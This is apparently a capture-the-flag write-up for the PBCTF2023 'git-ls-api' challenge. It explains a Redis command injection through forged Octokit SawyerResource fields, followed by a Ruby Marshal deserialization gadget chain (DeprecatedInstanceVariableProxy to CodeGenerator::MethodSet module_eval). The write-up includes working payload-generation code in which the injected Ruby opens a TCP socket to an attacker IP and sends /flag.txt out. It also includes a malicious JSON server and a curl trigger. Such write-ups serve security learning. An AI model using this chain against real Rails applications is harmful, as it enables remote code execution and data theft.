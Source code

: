 ```yaml
---
layout: post
title:  "PBCTF2023 git-ls-api"
date:   2023-05-10 
author: numbers
tags: [web, ruby]
---
```


We are given the source to a simple service which displays the SHA hash and file list for a github project. We can also provide an `api_endpoint` and it will retrieve from our host instead.

the `index` endpoint invokes `octokit` to retrieve the SHA and tree of the target repo. While searching the net to understand how `Octokit` works, I found a [gitlab bug](https://gitlab.com/gitlab-org/gitlab/-/issues/371098) where the importer could be hijacked via improper passing of a `SawyerResource` object to a caching function. The bug in this challenge wound up being almost identical, but using the built in rails redis cacher rather than being in gitlab's methods. 

The redis command serializer assumes that it will receive a norrmal flat bytelike or string object, and uses `to_s` to get the value and `bytesize` to compute the length.  `SawyerResource` objects are automagic structs produced directly from our input JSON, so we can set those to mismatch when constructing the RESP command string (it doesn't check that it's the builtin `bytesize` method and not just a field on the input). This lets us inject redis commands directly by using something like:

```python
exploit = {"sha": {"to_s": { "to_s": { "to_s": { "b":{
           "to_s":f"AA\r\n$2\r\nPX\r\n$2\r\n10\r\n*5\r\n$3\r\nset\r\n${len(target)}\r\n{target}\r\n${len(payload)}\r\n{payload}\r\n$2\r\nPX\r\n$6\r\n300000\r\n",
            "bytesize":2
            }}}}},"tree": [{"path":"pwnedbyPFS"}]}```

Here, I'm invoking a `set` command. 

The redis connector is invoked with `raw: True` for both directly controlled fields, but there's a third value stored for every connection which doesn't have that

```ruby
 def session
    Rails.cache.fetch(session_id, expires_in: 5.minutes) do
      { created_at: DateTime.now }
    end.to_json
  end
```

Values fetched without `raw: True` will be unmarshalled, leading to a classic ruby unmarshalling exploit. We can use redis injection to set our `session_id` in the redis server to controlled data, then trigger it to be unmarshalled

I wasted a _ton_ of time once I got to this point, but I  didn't really know what I was doing. I'll try to explain ruby unmarshalling best I can, but there are [numerous](https://bishopfox.com/blog/ruby-vulnerabilities-exploits) [other](https://www.elttam.com/blog/ruby-deserialization/) [resources](https://devcraft.io/2022/04/04/universal-deserialisation-gadget-for-ruby-2-x-3-x.html) [worth](https://github.com/haileys/old-website/blob/master/posts/rails-3.2.10-remote-code-execution.md) [reading](https://github.com/httpvoid/writeups/blob/main/Ruby-deserialization-gadget-on-rails.md).

Ruby unmarshalling exploits require a "gadget chain" (somewhat analogous to ROP chaining, i.e., reusing existing code). When unmarshalling an object, ruby will invoke the `marshal_load` and `_load`. There are nuanced differences between the two, for more info check [this link](https://blog.appsignal.com/2019/03/26/object-marshalling-in-ruby.html). A typical ruby gadget chain will start with an object which has a `marshal_load` implementation, although from my research, increasingly many exploit chains utilize more complex gadgets or indirect effects rather than directly using `marshal_load`. Whatever the initial mechanism, the general technique is to utilize ruby class which, when unmarshalled, allows you to invoke other useful functions (e.g., by setting the value of a member variable which will be invoked). Ultimately, you want to invoke a sink function which gets arbitrary ruby execution, or other behavior (e.g. shell execution) as determined by the constraints of your expoit.


I was able to replicate a few different gadget options I found online to kick off the chain. The easiest wound up being the `ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy` gadget. This gadget lets us invoke any method (without arguments) on any class. I will briefly describe the `DeprecatedInstanceVariableProxy` gadget, but definately read the source and check out other writeups for more information.

The `DeprecatedInstanceVariableProxy` implements `method_missing` which will be invoked when any unfound method is called on the class:

```ruby
def method_missing(called, *args, &block)
    @deprecator.warn(@message, caller_locations)
    target.__send__(called, *args, &block)
end
```

`Target` is implemented as:
```ruby
class DeprecatedInstanceVariableProxy < DeprecationProxy
    def initialize(instance, method, var = "@#{method}", deprecator = ActiveSupport::Deprecation.instance)
        @instance = instance
        @method = method
        @var = var
        @deprecator = deprecator
    end

    private
    def target
        @instance.__send__(@method)
    end

    def warn(callstack, called, args)
          @deprecator.warn("#{@var} is deprecated! Call #{@method}.#{called} instead of #{@var}.#{called}. Args: #{args.inspect}", callstack)
        end
    end
```

By setting `@method` and `@instance`, we can invoke any function on any class. We instantiate the deprecator as follows:

```ruby
depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.allocate
depr.instance_variable_set(:@instance, CLASS)
depr.instance_variable_set(:@method, :METHOD)
depr.instance_variable_set(:@silenced, true)
depr.instance_variable_set(:@var, "@METHOD")
d2 = ActiveSupport::Deprecation.new
d2.instance_variable_set(:@silenced, true)
depr.instance_variable_set(:@deprecator, d2)
```
Replacing `CLASS` with an instance of our target class, and `METHOD` with our target method, we can invoke `CLASS.METHOD`. Note that the target method must have no arguments.

At this point, I had to go digging, as all of the sink function I've seen people mention have been patched (e.g., `ActiveModel::AttributeMethods::ClassMethods::CodeGenerator`).

I discovered `ActiveSupport::CodeGenerator::MethodSet`, which has a function `apply` which calls `module_eval` on an instance variable (very similar to how the DIVP gadget has been used before)

```ruby
def apply(owner, path, line)
  unless @sources.empty?
    @cache.module_eval("# frozen_string_literal: true\n" + @sources.join(";"), path, line)
  end
  @methods.each do |name, as|
    owner.define_method(name, @cache.instance_method(as))
  end
end
```

We can't invoke the `apply` method directly, but examining the surrounding code we can instantiate an `ActiveSupport::CodeGenerator` and it's child `MethodSet` and invoke `execute` on the `CodeGenerator`:

```ruby
def execute
  @namespaces.each_value do |method_set|
    method_set.apply(@owner, @path, @line - 1)
  end
end
```

Here's my code to generate the payload:

```ruby
class ActiveSupport
    class Deprecation
        class DeprecatedInstanceVariableProxy
            def initialize(instance, method)
                @instance = instance
                @method = method
            end
       end
    end
    class CodeGenerator
        class MethodSet
            METHOD_CACHES = Hash.new 
            def initialize(instance, method)
                @instance = instance
                @method = method
            end
        end
    end
end


methodset = ActiveSupport::CodeGenerator::MethodSet.allocate
methodset.instance_variable_set(:@sources, ["f=TCPSocket.open(\"IP_ADDRESS_HERE\",1234)", "t=File.read(\"/flag.txt\")", "f.puts(t)"]) #;
methodset.instance_variable_set(:@cache, Module.class)

codegen   = ActiveSupport::CodeGenerator.allocate
codegen.instance_variable_set(:@owner, "OWNER")
codegen.instance_variable_set(:@path, "PATH")
codegen.instance_variable_set(:@line, 1)
codegen.instance_variable_set(:@namespaces, {"1"=>methodset})

depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.allocate
depr.instance_variable_set(:@instance, codegen)
depr.instance_variable_set(:@method, :execute)
depr.instance_variable_set(:@silenced, true)
depr.instance_variable_set(:@var, "@execute")
d2 = ActiveSupport::Deprecation.new
d2.instance_variable_set(:@silenced, true)
depr.instance_variable_set(:@deprecator, d2)

Marshal.dump(depr)
```

I host it with python and invoke the server twice with curl. The first invokation sets the session variable in the redis cache, and the second causes it to be unmarshalled.

```python
#!/usr/bin/env python3

from http.server import BaseHTTPRequestHandler, HTTPServer
from urllib.parse import urlparse
import json
payload = "put_payload_here"
target = "put_sessionID_here"
exploit = {"sha": {"to_s": { "to_s": { "to_s": { "b":{
           "to_s":f"AA\r\n$2\r\nPX\r\n$2\r\n10\r\n*5\r\n$3\r\nset\r\n${len(target)}\r\n{target}\r\n${len(payload)}\r\n{payload}\r\n$2\r\nPX\r\n$6\r\n300000\r\n",
            "bytesize":2
            }}}}},"tree": [{"path":"pwnedbyPFS"}]}
pwn = json.dumps(exploit).encode("utf-8")


class RequestHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        parsed_path = urlparse(self.path)
        self.send_response(200)
        self.send_header('Content-type', 'application/vnd.github.v3+json')
        self.end_headers()
        
        self.wfile.write(pwn)
        
        return
    
if __name__ == '__main__':
    server = HTTPServer(('0.0.0.0', 80), RequestHandler)
    server.serve_forever()
```

`curl -vv -c -b "./cookie" --path-as-is http://git-ls-api.chal.perfect.blue/a/B?api_endpoint=http://your_endpoint.net`
